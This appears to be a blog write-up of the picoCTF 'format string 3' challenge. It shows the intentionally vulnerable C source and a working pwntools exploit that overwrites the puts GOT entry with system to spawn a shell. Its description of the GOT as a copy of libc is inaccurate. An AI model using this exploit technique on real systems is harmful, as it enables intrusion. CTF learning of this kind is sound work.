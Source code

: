 ```yaml
---
layout: post
title:  Overwriting entries in the Global Offset Table
categories: write-ups
excerpt: "Learning about overwriting GOT entries using the picoCTF format string 3 challenge."
---
```

<br>
<p>
<h2>Overwriting entries in the Global Offset Table using a vulnerable printf function</h2>
This write-up builds on what was learned about exploiting printf vulnerabilities in my write-up on the picoCTF <a href="/write-ups/2024/12/22/format-string-exploitation.html">format string 2</a> challenge. In the format string 3 challenge there is a similar vulnerability, but this time instead of overwriting a variable within the program it will be used to overwrite a pointer to an entry in the Global Offset Table so that it will call a different libc function.
</p>
<br>
<ol>
<a href="#format-string-3"><li>format string 3</li></a>
<a href="#got"><li>The GOT, PLT, and GOT.PLT</li></a>
<a href="#exploit"><li>The Final Exploit</li></a>
</ol>

<div id="format-string-3" class="section-link">
<h2>format string 3</h2>
<p>When the program is run, it prints a line which leaks the address of the GOT entry for the <b>setvbuf</b> function and then waits for input:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-1.png">
</p>
<p>
After supplying some input, it then prints two lines; one which repeats the input and another which prints <b>/bin/sh</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-2.png">
</p>
<p>
Here is the source code for this function:<br>
{% highlight ruby %}
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);

	puts(normal_string);

	return 0;
}
{% endhighlight %}
</p>
<p>
Looking at the source, we can identify two goals. The main objective will be to overwrite the pointer to the <b>puts</b> function with a pointer to the <b>system</b> function so that instead of printing <b>/bin/sh</b>, the program will make a <b>system</b> call to <b>/bin/sh</b> instead, granting us a shell. To accomplish this, we will need to exploit the vulnerable printf function which repeats user input.
</p>
</div>

<div id="got" class="section-link">
<h2>The Global Offset Table</h2>
<p>My understanding of the GOT is that it is a copy of libc used by a program which is stored in a random memory location at runtime in order to prevent the type of attack we are performing here. But because we have access to the copy of libc being used and the location of <b>setvbuf</b> has been leaked, we are able to calculate offsets and find the memory locations of other functions within libc.<br><br>
Finding the locations of functions and calculating their offsets can all be accomplished using pwntools, but I wanted to know exactly what was going on under the hood, so I took a look at the libc file which was supplied with this challenge. First, I used the <b>readelf</b> function to find the location of <b>setvbuf</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-4.png">
</p>
<p>
Then, I found the location of <b>system</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-5.png">
</p>
<p>
Finally, I found the difference of the two, which is <b>2ac90</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-6.jpg">
</p>
<p>
To test this theory, I ran the program in gdb and set a breakpoint after the <b>setvbuf</b> leak:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-7.png">
</p>
<p>
Then I subtracted the <b>2ac90</b> offset from the leaked address and looked at the memory in that location:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-8.png">
</p>
<p>
Cool! We've found the location of the <b>system</b> call in memory! Now what points to the <b>puts</b> entry we want to replace?
</p>
<h2>The GOT, PLT, and GOT.PLT</h2>
<h3>GOT</h3>
<p>As previously mentioned, the Global Offset Table (GOT) is a copy of libc stored in a random location in memory. The location of these addresses must be found at runtime, which is why the setvbuf leak in this program is so valuable.
</p>
<h3>PLT</h3>
<p>The Procedure Linkage Table (PLT) is where libc functions are referenced locally in this program. In this example, <b>puts</b> is located at <b>0x401080</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/puts2.png">
</p>
<h3>GOT.PLT</h3>
<p>This is the middle-man where the libc functions which are called locally are linked to the GOT. Here we can see the <b>got.plt</b> entry by examining the instructions following the local call. Looking at the memory in this location you can see the GOT address for <b>puts</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-12.png">
</p>
<p>
Now all we need to do is overwrite this entry with the offset we calculated earlier (the address for <b>system</b> is different because this is a different instance from earlier):<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-13.png">
</p>
<p>
And after some bugginess, we have a shell!<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-14.png">
</p>
<p>
Entering an <b>ls</b> command shows the contents of the local directory where I was working:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-15.png">
</p>
<p>
I believe the errors in the above examples are from the breakpoints I set to examine memory. Unfortunately, because of the dynamic locations which are generated every time the program is run and the fact that the payload can not be crafted manually and sent to the program beforehand, a script must be used to complete this challenge. But at least we have a solid grasp of what is going on behind the scenes.
</p>
</div>

<div id="exploit" class="section-link">
<h2>Final Exploit</h2>
<p>I won't go over the breakdown of the printf vulnerability because I already covered that in my <a href="/write-ups/2024/12/22/format-string-exploitation.html">format string 2</a> write-up, but I used those methods to determine that our printf string is in location 38. Using all of the information we have so far, here is the script I used, adapted from Wiebe Willems's script <a href="https://blog.nviso.eu/2024/05/23/format-string-exploitation-a-hands-on-exploration-for-linux/" target="_blank">here</a>:<br>
{% highlight ruby %}
from pwn import *

libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

exe = ELF("./format-string-3") # these 3 lines set up for local execution
context.binary = exe
elf = context.binary = ELF('./format-string-3')

# p = process([exe.path]) # for local execution
p = remote("rhea.picoctf.net", 64162) # for remote execution
        

def main():

    info(p.recvline())              # receives howdy gamers line
    info(p.recvuntil("libc: "))     # receives until setvbuf address
    
    setvbuf_address = p.recvline()  # gets setvbuf address

    setvbuf_value = int(setvbuf_address.split(b"x")[1].strip(),16) # converts input to integer value for calculation

    libc.address = setvbuf_value - libc.symbols['setvbuf'] # calculate libc base address

    payload = fmtstr_payload(38, {elf.got['puts'] : libc.symbols['system']}) # format string payload; overwrites puts with system

    p.sendline(payload)
    p.clean()
    p.interactive() # gives program control back to user

if __name__ == "__main__":
    main()
{% endhighlight %}
</p>
</div>

<p>
After running this script we have a shell on the remote server and can just cat the flag.txt file!<br>
(I wasn't able to do this in the picoCTF webshell and had to use a Kali VM)<br><br>
I hope this was helpful. This challenge was a great way to learn about the Global Offset Table and also get some practice with gdb and pwntools. Reverse engineering and binary exploitation are the most fun things I have learned about so far on my cybersecurity journey!
</p>